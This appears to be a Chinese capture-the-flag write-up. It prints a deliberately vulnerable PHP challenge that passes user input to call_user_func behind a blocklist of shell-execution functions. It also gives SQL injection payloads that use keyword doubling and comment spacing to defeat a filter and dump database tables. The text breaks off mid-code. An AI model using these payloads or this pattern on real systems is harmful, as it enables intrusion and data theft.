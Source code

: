 [图片]

ezrce
很简单的rce
<?php 
error_reporting(0); 
highlight_file(__FILE__); 

function waf($a) { 
    $disable_fun = array( 
        "exec", "shell_exec", "system", "passthru", "proc_open", "show_source",  
        "phpinfo", "popen", "dl", "proc_terminate", "touch", "escapeshellcmd",  
        "escapeshellarg", "assert", "substr_replace", "call_user_func_array",  
        "call_user_func", "array_filter", "array_walk", "array_map",  
        "register_shutdown_function", "register_tick_function", "filter_var",  
        "filter_var_array", "uasort", "uksort", "array_reduce", "array_walk",  
        "array_walk_recursive", "pcntl_exec", "fopen", "fwrite",  
        "file_put_contents", "readfile", "file_get_contents", "highlight_file", "eval" 
    ); 
     
    $disable_fun = array_map('strtolower', $disable_fun); 
    $a = strtolower($a); 

    if (in_array($a, $disable_fun)) { 
        echo "宝宝这对嘛,这不对噢"; 
        return false; 
    } 
    return $a; 
} 

$num = $_GET['num']; 
$new = $_POST['new']; 
$star = $_POST['star']; 

if (isset($num) && $num != 1234) { 
    echo "看来第一层对你来说是小case<br>"; 
    if (is_numeric($num) && $num > 1234) { 
        echo "还是有点实力的嘛<br>"; 
        if (isset($new) && isset($star)) { 
            echo "看起来你遇到难关了哈哈<br>"; 
            $b = waf($new);  
            if ($b) {  
                call_user_func($b, $star);  
                echo "恭喜你，又成长了<br>"; 
            }  
        } 
    } 
} 
?> 
展示payload
[图片]

ezsql1.0
-1/**/union/**/selselectect/**/1,2,database()#
[图片]
-1/**/union/**/selselectect/**/1,2,group_concat(table_name)/**/FROM/**/information_schema.tables/**/where/**/table_schema=database()#
[图片]
-1/**/union/**/selselectect/**/1,2,group_concat(column_name)/**/FROM/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='flag'
[图片]
-1/**/union/**/selselectect/**/1,2,group_concat(id,data)/**/FROM/**/flag
[图片]
给假的flag出题人，你真是个人啊，我这里甚至给他的源代码都读出来了
index.php
<?php 
include('connect.php'); 
